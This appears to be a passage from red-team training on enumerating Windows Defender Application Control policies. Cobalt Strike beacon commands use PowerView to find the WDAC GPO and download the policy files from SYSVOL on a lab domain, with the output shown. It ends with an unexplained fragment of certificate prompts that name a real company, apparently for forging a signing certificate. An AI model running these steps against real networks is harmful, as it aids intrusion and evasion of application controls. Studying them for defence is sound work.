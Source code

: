 WDAC is a Windows technology designed to control which drivers and applications are allowed to run on a machine.  It sounds a lot like AppLocker, but with a few key differences.  The most significant of which is that Microsoft recognises WDAC as an [official security boundary](https://www.microsoft.com/en-us/msrc/windows-security-servicing-criteria).  This means that WDAC is substantially more robust and applicable bypasses are actually fixed (and a CVE often issued to the finder).

The term "WDAC bypass" is used herein, but this is disingenuous since we're never actually bypassing WDAC at a fundamental level.  Instead, we are finding weaknesses in the policy that organisations deploy.

WDAC policies are first defined in XML format - Microsoft ships several base policies which can be found under `C:\Windows\schemas\CodeIntegrity\ExamplePolicies`.  Multiple policies can be merged into a single policy, which is then packaged into a `.p7b` file and pushed out via GPO or another management platform such as Intune.  If you can find the GPO responsible for pushing that policy, you can find where it lives.
```
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
beacon> powerpick Get-DomainGPO -Name *WDAC* -Properties GpcFileSysPath

gpcfilesyspath                                                                              
--------------                                                                              
\\redteamops2.local\SysVol\redteamops2.local\Policies\{36C8DC4C-6B44-4EEB-9099-CA0E050DD6DE}

beacon> download \\redteamops2.local\SysVol\redteamops2.local\Policies\{36C8DC4C-6B44-4EEB-9099-CA0E050DD6DE}\Machine\Registry.pol
[*] started download of \\redteamops2.local\SysVol\redteamops2.local\Policies\{36C8DC4C-6B44-4EEB-9099-CA0E050DD6DE}\Machine\Registry.pol (448 bytes)
[*] download of Registry.pol is complete
```
```powershell
PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

KeyName     : SOFTWARE\Policies\Microsoft\Windows\DeviceGuard
ValueName   : DeployConfigCIPolicy
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

KeyName     : SOFTWARE\Policies\Microsoft\Windows\DeviceGuard
ValueName   : ConfigCIPolicyFilePath
ValueType   : REG_SZ
ValueLength : 116
ValueData   : \\redteamops2.local\SYSVOL\redteamops2.local\CIPolicy.p7b
```

The **ValueData** field contains the location of the WDAC policy itself.  This is usually somewhere like a central file share, so that machines can read the policy in order to apply it.
```
beacon> download \\redteamops2.local\SYSVOL\redteamops2.local\CIPolicy.p7b
[*] started download of \\redteamops2.local\SYSVOL\redteamops2.local\CIPolicy.p7b (2360 bytes)
[*] download of CIPolicy.p7b is complete
```

###### If you have filesystem access to a machine that has the WDAC policy applied, you can grab the p7b from `C:\Windows\System32\CodeIntegrity`.
  

  [Unknown]:  HelpSystems LLC
  [Unknown]:  Hacker Squad
  [Unknown]:  HelpSystems LLC
  [Unknown]:  Eden Prairie
  [Unknown]:  MN
  [Unknown]:  US
  [no]:  yes